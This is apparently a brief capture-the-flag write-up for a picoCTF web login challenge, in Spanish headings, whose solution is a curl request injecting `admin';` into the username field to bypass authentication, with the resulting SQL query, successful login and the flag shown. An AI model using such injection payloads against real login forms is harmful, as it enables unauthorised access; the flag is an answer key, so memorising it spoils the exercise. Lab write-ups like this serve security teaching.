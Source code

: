 # Objetivo
There is a website running at `https://jupiter.challenges.picoctf.org/problem/64649/` ([link](https://jupiter.challenges.picoctf.org/problem/64649/)). Someone has bypassed the login before, and now it's being strengthened. Try to see if you can still login! or http://jupiter.challenges.picoctf.org:64649
# Pistas
1. The password is being filtered.
# Solución
```
giogi-picoctf@webshell:~$ curl https://jupiter.challenges.picoctf.org/problem/64649/login.php -d "username=admin';&password=hola&debug=1"
<pre>username: admin';
password: hola
SQL query: SELECT * FROM users WHERE name='admin';' AND password='hola'
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{m0R3_SQL_plz_aee925db}
```
# Notas adicionales
# Referencias

